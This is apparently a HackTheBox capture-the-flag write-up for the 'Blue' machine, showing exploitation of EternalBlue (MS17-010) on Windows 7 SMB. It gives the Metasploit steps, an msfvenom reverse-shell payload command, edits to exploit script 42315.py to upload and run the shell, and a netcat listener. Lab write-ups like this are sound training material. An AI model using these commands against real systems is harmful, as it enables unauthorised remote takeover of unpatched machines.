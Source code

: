 ```yaml
---
title: HackTheBox Blue
date: 2020-12-06
categories: [HackTheBox]
thumbnail: /assets/img/htb/blue/blue.png
excerpt: This is an easy level box which is vulnerable to ms17-010.
tags: [ms17_010,samba,smb]
---
```


## Nmap

Let's start off by running our nmap scan:

![nmap](/assets/img/htb/blue/nmap.png)

Nmap `RPC` and `SMB` open. From running the version and script scan, nmap has told us that `SMB` is running Windows 7 SP1. Many of you may have heard about this exploit that affects Windows 7 SP1 SMB called `EternalBlue` or [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143). Judging by the box name we can assume we'll be using this exploit.

We can run another nmap scan to see if it is actually vulnerable to this:

![vuln](/assets/img/htb/blue/vuln.png)

As you can see, this is vulnerable to `ms17-010`.

---

## Exploit

We can do this two ways... Manually or the Metasploit way. Let's do it the Metsploit way first.

First spin up Metasploit, type `msfconsole` in your terminal. Then search for ms17-010:

![metasploit](/assets/img/htb/blue/metasploit.png)

We'll use `ms17_010_eternalblue` option, so you can either type `use 2` or `use exploit/windows/smb/ms17_010_eternalblue` up to you.

We'll have to see what options we are working with, so type `show options` or just `options`

![options](/assets/img/htb/blue/options.png)

As you can see all we really need is the `RHOSTS` set, so we'll set our `RHOSTS` to the box IP of `10.10.10.40`.
`set RHOSTS 10.10.10.40`

![rhosts](/assets/img/htb/blue/rhost.png)

Now that we have it set all we have to do now is type `run` or `exploit`

GREAT! Now we have a shell!

![shell](/assets/img/htb/blue/shell.png)

With this exploit, it'll give you instant root access.

![root](/assets/img/htb/blue/root.png)

Your user flag is placed in `C:\Users\haris\Desktop` and root flag is in `C:\Users\Administrator\Desktop`.

## Manual exploit

If we run `searchsploit` on `ms17-010`, we can see we have a few results, the one we want is `42315.py`:

![searchploit](/assets/img/htb/blue/searchsploit.png)

We'll want to get the exploit, we can run `searchsploit -m 42315.py`

We can check if we can login to SMB anonymously, let's list out the shares first: `smbclient -L \\10.10.10.40 -N`

`-L - List shares`

`-N - No password set`

![shares](/assets/img/htb/blue/smb.png)

Looks like we have a `Users` share. And let's try to connect to that share anonymously:
`smbclient \\\\10.10.10.40\\Users -N`

![smb2](/assets/img/htb/blue/smb2.png)

GREAT!

So we know we can connect as guest or anonymously.

The python script we downloaded does not have a built-in reverse shell, so we need to build our own using msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=$TUN0IP LPORT=$PORT -f exe > shell.exe`

NOTE: **DON'T** use the staged payload of `windows/meterpreter/reverse_tcp` as this is a non-metasploit example.

So let's look at our exploit we downloaded from searchsploit, we will need to make modifications to the file.

We'll need to add `//` to our USERNAME variable and just leave the PASSWORD variable the same(blank) as we can sign in as guest.

![USERNAME](/assets/img/htb/blue/username.png)

Scroll down until you find a function called `smb_pwn`.

![smb_pwn](/assets/img/htb/blue/smb_pwn.png)

We will have to uncomment `smb_send_file` and `service_exec`

`smb_send_file - your path to your created payload`

`service_exec - shell to be executed`

So if you called your payload `shell.exe` it would look something like this:

`smb_send_file(smbConn, '/path/to/your/shell/shell.exe', 'C', '/shell.exe')`

`service_exec(conn, r'cmd /c c:\\shell.exe')`

---

#### Note:

When you run your exploit the first time, it'll give an error saying:

![error](/assets/img/htb/blue/mysmb.png)

You'll just have to run this command:

`wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py`
`mv 42315.py.1 mysmb.py`

---

So from here, let's setup our listener:

`nc -lvnp $PORT`

and run our exploit:

`python 42315.py 10.10.10.40`

![root2](/assets/img/htb/blue/root2.png)

There you have it!! ROOT!!



